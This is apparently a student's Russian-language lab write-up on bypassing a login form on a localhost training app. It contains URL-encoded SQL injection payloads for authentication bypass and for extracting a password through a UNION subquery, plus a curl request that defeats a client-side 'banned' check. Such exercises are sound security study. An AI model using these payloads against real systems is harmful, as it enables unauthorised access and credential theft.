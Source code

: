 ## Задание 1 - обойти "защиту" двумя способами:

###     Обойти защиту можно кодированием кавычек. Осуществим вход:
        %27 or 1=1; --
    
###     Войдём под произвольным логином:
        %27 or 1=1 union select %27xexe%27 order by 1 desc; --
    
    
## Задание 2 - обойти клиентскую защиту с помощью curl:
    curl 'http://localhost:8080/signin' \
      -v\
      -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
      -H 'Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7' \
      -H 'Cache-Control: max-age=0' \
      -H 'Connection: keep-alive' \
      -H 'Content-Type: application/x-www-form-urlencoded' \
      -H 'If-None-Match: W/"a-H50XstGsGKp4UEvDuCvu61ziNnA"' \
      -H 'Origin: http://localhost:8080' \
      -H 'Referer: http://localhost:8080/login.html' \
      -H 'Sec-Fetch-Dest: document' \
      -H 'Sec-Fetch-Mode: navigate' \
      -H 'Sec-Fetch-Site: same-origin' \
      -H 'Sec-Fetch-User: ?1' \
      -H 'Upgrade-Insecure-Requests: 1' \
      -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36' \
      -H 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"' \
      -H 'sec-ch-ua-mobile: ?0' \
      -H 'sec-ch-ua-platform: "macOS"' \
      --data-raw 'name=Jacob&pass=Jacob&banned=false' \
      --compressed
      
      
## Задание 3 (?) - обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded):
    %27 or 1=1; --
    
## Задание 4 - обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded) и получить пароль из БД: 
    %27 or 1=1 union select (select min(pass) from users) order by 1 asc limit 1; --